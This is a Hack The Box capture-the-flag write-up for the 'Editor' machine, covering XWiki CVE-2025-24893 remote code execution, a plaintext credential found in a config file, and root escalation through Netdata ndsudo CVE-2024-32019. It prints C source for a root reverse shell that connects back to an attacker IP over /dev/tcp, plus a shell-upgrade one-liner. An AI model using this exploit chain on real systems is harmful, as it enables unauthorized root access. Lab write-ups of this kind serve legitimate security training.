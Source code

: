 ```yaml
---
title: "HtB Machine: Editor"
description: Write-up for the HtB Editor machine.
sidebar:
  label: Editor
---
```



## Enumeration

Starting with an nmap scan, let’s see what ports are open and what is running on our target.

<Image src={nmapEditor} priority alt="Nmap scan for Editor" />

Nmap gives us a few useful pieces of information. 
- Our target host seems to be serving a website called *http:/<i></i>/editor.htb*. 
- They also appear to be using [XWiki](https://www.xwiki.org/xwiki/bin/view/Main/WebHome), an open source enterprise wiki platform.
- Our target host also appears to be open for SSH communication, which could be useful in the future.

Let’s add editor.htb to our **/etc/hosts** file, and then navigate to the main page for *http:/<i></i>/editor.htb*.

![Editor main page](@assets/security/editor/2-editor-main.png)

Clicking around through our target site doesn’t reveal all that much, and the documentation link doesn’t resolve.

Going back to our nmap scan, we know that our scan also revealed several XWiki pages. Navigating to *http:/<i></i>/editor.htb/xwiki/bin/view/Main* is more interesting.

![XWiki Main Page](@assets/security/editor/3-xwiki-main.png)

On the XWiki pages for our target, we can see they include the XWiki version at the bottom of the page: XWiki for Debian 15.10.8. 

## Vulnerability

Our target is serving XWiki 15.10.8, if we browse onto [XWiki’s downloads page](https://www.xwiki.org/xwiki/bin/view/Download/), we can see that the latest version is 17.8.0 (as of the time of writing this report). Thus, it could be helpful to search for any vulnerabilities for this older version.

Searching for our target’s version comes up with CVE-2025-24893. OffSec has a [blog post](https://www.offsec.com/blog/cve-2025-24893/) about this specific vulnerability, and states that it affects all XWiki versions prior to 15.10.11, which includes our target!
Based on the explanation, it looks like we can achieve remote code execution due to unsanitized input via a GET request to a specific macro and its interaction with Groovy.

Various POCs can be found for this specific vulnerability, for example:
https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC

Going through the POC's code, there’s a decent amount of flavor that makes the POC easy to use, but the core of it revolves around a reverse shell payload, which is inserted with the Groovy formatting.

To catch the reverse shell, we prepare a listener with netcat. Then, we launch the POC exploit, and catch our reverse shell:

![Exploit POC for CVE-2025-24893](@assets/security/editor/4-exploit-1.png)

Our reverse shell:
![Netcat listener](@assets/security/editor/5-nc-rs.png)

## Enumeration Pt. 2

We can now use our reverse shell to enumerate the files on our target. 
First, we can upgrade our shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Next, let’s browse around the folder structure.
It looks like the files for our target XWiki site are located in **/usr/lib/xwiki**. While looking through the .xml files for potential information, it looks like there is a config file called **hibernate.cfg.xml**.

![Hibernate config file](@assets/security/editor/6-hibernate.png)

Grepping this file for ‘password’ reveals a credential.

![Grepping for password](@assets/security/editor/7-grep-pw.png)

Another interesting result is found from browsing the **/home** folder. Here, we notice one user listed, **/oliver**. Currently, we cannot access this folder, but this gives us a username to try.

![Finding Oliver username](@assets/security/editor/8-oliver.png)

Since we have both a username and password, we can try SSHing to our target with our new credentials.

![SSHing with credentials](@assets/security/editor/9-ssh.png)

As **oliver**, we can now read the flag for **user.txt** in our home folder.

## Privilege Escalation

In searching for ways to escalate privilege, one of the potential paths we can try is to look for a file that has the SUID bit set.

From this search, we can notice that our target contains various tools from Netdata. We can search online for Netdata vulnerabilities, where we find one for the **ndsudo** plugin, with the vulnerability [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019).
It looks like Netdata’s ndsudo tool allows us to run arbitrary programs with root permissions. This tool searches for commands via the **$PATH** variable, thus letting us control where it looks for commands.

Searching for this specific vulnerability, we again find a POC demonstrating the vulnerability:
https://github.com/AliElKhatteb/CVE-2024-32019-POC

Let’s take a look at the code:

```c
#include <unistd.h>
#include <stddef.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.160/9001 0>&1", NULL);
    return 0;
}
```

It looks like a reverse shell for root written in C, which we can compile and export to our target machine.

Based on the vulnerability description from netdata’s [Github](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93), we have make sure to do a few things.
1. We make sure our compiled exploit is called **nvme**, as this is described as one of the commands **ndsudo** recognizes.
2. When we call **ndsudo**, we make sure to specify our **$PATH** parameter as where we transferred our **nvme** exploit.

We’ll take our C exploit code and compile this locally:

![Specifying $PATH](@assets/security/editor/10-compile.png)

Then, let’s transfer it to our target in the /tmp folder:

![Specifying $PATH](@assets/security/editor/11-scp.png)

Let’s run our exploit, and catch the root reverse shell. We’ll make our exploit executable with chmod. We call ndsudo, and this is where we specify our $PATH parameter to our exploit.

![Specifying $PATH](@assets/security/editor/12-path.png)

In our other window we’ve set up the listener and we get our reverse shell:

![Root access](@assets/security/editor/x-root.png)

And we have root access! We can now complete our system flag capture.

## Remediation

<Aside type="note">
It’s understood that Hack The Box machines are designed to be exploitable, and also that a capture-the-flag exercise is not indicative of the goals of real-life red team activities. Nonetheless, this section is included in this report for practice and learning.
</Aside>

### Summary:
- Scope: 10.10.11.80 http:/<i></i>/editor.htb
- CTF Date: 10/5/2025
- Scope was a pure penetration CTF exercise, for both user and root privileges.
- The test was run as a black-box from a VPN belonging to the target. All testing was run from 10.10.14.160.

The HacktheBox Editor machine was attacked on October 5th, 2025. The test was primarily run between the hours of 9AM and 12PM, and the report compiled the following day. A VPN connection was provided, but no users or login information.

The primary goal of the test was to determine if user accounts could be breached and eventually, root privileges could be accessed. A time limitation of one day was given, which was more than enough to be thorough. There were no other limitations or extenuating circumstances in this test.

The application was well-organized, and we were unable to brute-force user accounts. However, we were able to find un-patched software which had vulnerabilities that allowed us to access both user and root accounts. Furthermore, we found an instance of credentials being stored in plain-text, which undermined the hardening efforts of the application.

### Technical Details

| Reference # | Risk | Issue Description | Recommendations |
| --- | --- | --- | --- |
| 1 | High | XWiki platform version contained a search macro that would process unsanitized data. This allows for injection into GET requests of the application. | XWiki users are recommended to immediately update to 15.10.11. |
| 2 | High | Account passwords were found in a configuration file in plaintext. | All sensitive data should be stored with a strong hashing algorithm. |
| 3 | High | Netdata plugins allowed for arbitrary root code execution. | Netdata plugins are recommended to be kept up to date. |